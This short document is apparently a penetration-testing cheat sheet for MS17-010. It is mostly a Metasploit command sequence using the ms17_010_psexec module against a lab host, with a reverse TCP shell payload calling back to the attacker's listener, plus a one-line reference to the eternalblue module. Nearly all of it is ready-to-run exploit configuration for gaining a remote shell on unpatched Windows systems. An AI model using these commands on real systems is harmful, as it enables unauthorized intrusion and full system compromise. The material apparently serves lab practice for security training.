

# MS17-010

```
(IMPORTANT MS17_010_PSEXEC is a staged payload, means you need meterpreter !)
(IMPORTANT 2, if object can\'t be found, try to modify your target !)
use exploit/windows/smb/ms17_010_psexec
set SHARE ADMIN$
set SMBDomain ALICE
set ALLOW_GUEST true
set LPORT 445
set LHOST 10.11.0.179
set RHOST 10.11.1.5
set TARGET 3       (TARGET 1 = PowerShell / TARGET 2 = Native / TARGET 3 = MOF => besoin du share ADMIN$)
set PAYLOAD windows/shell/reverse_tcp
set VERBOSE true
set DBGTRACE true
set EXITFUNC thread
exploit -j
```

use windows/smb/ms17\_010\_eternalblue

<figure><figcaption></figcaption></figure>
